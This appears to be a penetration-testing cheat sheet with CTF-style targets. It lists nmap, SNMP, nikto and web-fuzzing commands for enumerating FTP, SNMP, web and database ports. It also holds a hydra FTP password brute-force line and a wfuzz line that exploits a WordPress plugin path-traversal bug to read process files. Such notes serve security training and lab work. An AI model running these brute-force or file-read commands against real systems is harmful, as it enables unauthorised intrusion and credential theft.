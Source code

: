## Scan

### Port Scanning

```sh
nmap -sC -sV -oN nmap/initial $IP
nmap -sC -sV -p- -oN nmap/all_ports $IP
nmap -Pn -sT -sU -p $ports --script=*vuln* -vv -oN nmap/vuln $IP
```

### FTP Port 21

```sh
nmap -p 21 --script="+*ftp* and not brute and not dos and not fuzzer" -vv -oN nmap/ftp $IP
hydra -s 21 -C /usr/share/.../passwords -u -f $IP ftp
```

### SNMP Port 161

```sh
snmpwalk -c public -v1 $IP
snmp-check $IP
snmpcheck -t $IP -c public
```

### Web Port 80, 443

```sh
nikto -h http://$IP/
gobuster dir -e -u http://$IP -w /usr/share/seclists/Discovery/Web-Content/common.txt
gobuster dir -e -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x ext,ext2,ext3
wfuzz --hc 404 -c -w /usr/share/seclists/Discovery/Web-Content/common.txt http://$IP/FUZZ.txt
wfuzz -c --hc 403  -u http://paper -H "Host: FUZZ.paper" -w /usr/share/wfuzz/wordlist/general/common.txt
wfuzz -u http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/FUZZ/cmdline -z range,1-1000 --hw 1
ffuf -fc 403 -w /usr/share/wfuzz/wordlist/general/common.txt -u http://paper/ -H "Host: FUZZ.paper"
gobuster vhost -u http://test.com -w dnslist.txt --append-domain
```

#### FeroxBuster

```sh
sudo apt update && sudo apt install -y feroxbuster

feroxbuster -e -d0 --url url
```

### MySQL Port 3306 & MsSQL Port 1433

```sh
nmap -p 3306 --script="+*mysql* and not brute and not dos and not fuzzer" -vv -oN nmap/mysql $IP
```

